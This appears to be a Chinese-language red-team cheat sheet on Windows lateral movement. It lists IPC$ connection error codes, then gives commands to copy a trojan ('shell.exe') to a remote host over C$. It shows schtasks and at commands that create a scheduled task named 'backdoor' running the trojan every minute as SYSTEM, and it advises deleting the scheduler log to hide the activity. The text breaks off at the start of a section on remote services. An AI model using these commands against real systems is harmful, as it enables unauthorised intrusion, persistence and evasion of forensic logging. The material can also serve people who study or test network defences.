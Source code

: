 ### IPC常见错误号

```
1.错误号5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限；
2.错误号51，Windows 无法找到网络路径：网络有问题；
3.错误号53，找不到网络路径：ip地址错误；目标未开机；目标lanmanserver服务未启动；目标有防火墙（端口过滤）；
4.错误号67，找不到网络名：你的lanmanworkstation服务未启动；目标删除了ipc$；
5.错误号1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个ipc$，请删除再连。
6.错误号1326，未知的用户名或错误密码：原因很明显了；
7.错误号1792，试图登录，但是网络登录服务没有启动：目标NetLogon服务未启动。（连接域控会出现此情况）
8.错误号2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码。
```

### Windows计划任务

1.先建立IPC连接

2.确定目标主机DC的当前时间

```
net time \\192.168.10.2
```

3.拷贝木马到目标机器

```
copy shell.exe \\192.168.10.2\C$\windows\temp\
```

4	.创建计划任务

Vista 和 Server 2008 之后：

> 在使用schtasks命令时，会在系统中留下日志文件C:\\Windows\\Tasks\\SchedLgU.txt（记得删）

```
schtasks /create /s 192.168.10.2 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f
// 创建一个名称为"backdoor"的计划任务。该计划任务每分钟启动一次，启动程序为c:\shell.exe，启动权限为system
schtasks /run /s 192.168.10.2 /i /tn backdoor
// i：忽略任何限制立即运行任务
schtasks /delete /s 192.168.10.2 /tn "backdoor" /f
// 强制删除名称为"backdoor"计划任务（记得删）
```

在没有建立ipc连接时，要加上/u和/p参数分别设置用户名(域中为`域\域用户`)和密码。
如果因为权限或组策略设置等原因报错拒绝访问，要加上/u和/p参数分别设置高权限用户名和密码。

Vista 和 Server 2008 之前：

```
at \\192.168.10.2 15:47:00 c:\beacon.exe //创建计划任务
at \\192.168.10.2 1 /delete //删除ID为1的计划任务
```

### Windows服务

> 条件：
>
> 1、当前跳板机用户具有管理员权限(因为要创建服务)。
>
> 2、与目标机器已经建立ipc连接

